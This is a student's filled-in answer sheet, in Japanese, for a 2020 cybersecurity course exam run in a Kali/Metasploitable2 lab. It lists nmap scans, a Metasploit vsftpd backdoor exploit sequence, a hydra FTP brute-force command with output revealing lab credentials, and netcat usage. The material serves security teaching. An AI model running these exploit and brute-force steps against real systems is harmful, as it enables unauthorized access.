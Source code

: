 # CyberSecurity I Exam 2020 回答用紙

[ip]
kali: 192.168.33.10
metasploitable2: 192.168.33.5

## 問1 [netcat]

### サーバー側コマンド

```sh
# ここに回答を記述
nc -lvp 5000
```
### クライアント側コマンド
 
```sh
# ここに回答を記述
nc 192.168.33.5(server ip) 5000
```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->
- omas:itcollege
- omas2:foobar
```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# ここに回答を記述
nmap -sP 192.168.33.0/25

```

### 2. version scan

```sh
# ここに回答を記述
nmap -sV -p- 192.168.33.5
```

## 問4 [Metasploit Framework]

```sh
# ここに回答を記述
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST 192.168.33.5
run
```

## 問5 [Online Password Cracker]

### 1. コマンド

```sh
# ここに回答を記述
hydra -L user.list -P passwd.list -t 64 192.168.33.5 ftp
```

### 2. 解析結果

```sh
# ここに回答を記述
vagrant@kali:~/exam20201125$ hydra -L user.list -P passwd.list -t 64 192.168.33.5 ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-24 22:08:33
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 28496 login tries (l:8/p:3562), ~446 tries per task
[DATA] attacking ftp://192.168.33.5:21/
[STATUS] 1131.00 tries/min, 1131 tries in 00:01h, 27417 to do in 00:25h, 64 active
[STATUS] 1111.00 tries/min, 3333 tries in 00:03h, 25221 to do in 00:23h, 64 active
[21][ftp] host: 192.168.33.5   login: msfadmin   password: msfadmin
[STATUS] 1599.00 tries/min, 11193 tries in 00:07h, 17385 to do in 00:11h, 64 active
[STATUS] 1419.75 tries/min, 17037 tries in 00:12h, 11541 to do in 00:09h, 64 active
[STATUS] 1346.35 tries/min, 22888 tries in 00:17h, 5690 to do in 00:05h, 64 active
[STATUS] 1299.00 tries/min, 28578 tries in 00:22h, 1 to do in 00:01h, 16 active
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 8 final worker threads did not complete until end.
[ERROR] 8 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-24 22:30:44
```

## 問6 [Packet Sniffer]

```sh
# ここに回答を記述
ip.addr==192.168.33.5&&http
```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  ここに回答を記述 -->
100点
```

## 問9 [講義の感想]

```md
<!--  ここに回答を記述 -->
- vagrantを利用した仮想環境の構築
- 基本的なネットワークコマンドの利用方法
- metasploit databaseの存在
- ハッキング視点でのポートの利用方法
- 各種サービス、通信の流れの理解
- 基本的なハッキングの流れ、ハッキングツールの利用方法
- ポートやアカウント管理の重要性

感想
普段は経験できないハッキングの流れや考え方を深く学べて良かった。
また、ポートとアカウント管理の仕組みや重要性の理解を深めることができた。
ハッキングのみならず、様々な知識を実体験を通して身につけることが出来ました。
ありがとうございました。
```
